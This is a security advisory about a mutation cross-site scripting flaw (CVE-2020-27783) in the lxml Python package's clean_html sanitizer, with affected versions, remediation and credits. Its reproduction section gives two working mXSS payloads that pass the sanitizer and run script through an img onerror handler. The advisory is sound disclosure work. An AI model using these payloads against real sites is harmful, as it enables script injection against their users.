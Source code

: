 ```yaml
---
title: Mutation Cross-Site Scripting in lxml
date: 2020-11-27
tags:
	- "python"
	- "xss"
	- "mxss"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4286/
cves:
	- "CVE-2020-27783"
---
```

## Summary
The lxml python package is vulnerable to mXSS due to the use of improper parser. The parser used doesn't imitate browsers, which causes different behaviors between the sanitizer and the user's page. This can result in an arbitrary HTML/JS code execution.

## Product
lxml from 1.2 up to 4.6.1

## Impact
Using lxml as a sanitizer might not fulfill its purpose. 

## Steps to reproduce
```
>>> from lxml.html.clean import clean_html
>>> clean_html('<svg><style><img src=x onerror=alert(1)></style></svg>')
>>> clean_html('<noscript><style><a title="</noscript><img src=x onerror=alert(1)>">')
```

### Expected result:
```<svg><style><img src=x onerror=alert(1)></style></svg>```
And
```<noscript><style><a title="</noscript><img src=x onerror=alert(1)>"></style></noscript>```

## Remediation
Update lxml dependency to 4.6.2 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Advisory](https://github.com/advisories/GHSA-pgww-xf46-h92r)
2. Initial commit [89e7aad](https://github.com/lxml/lxml/commit/89e7aad6e7ff9ecd88678ff25f885988b1)
3. Additional commit [a105ab8](https://github.com/lxml/lxml/commit/a105ab8dc262ec6735977c25c13f0bdfcdec72a7)
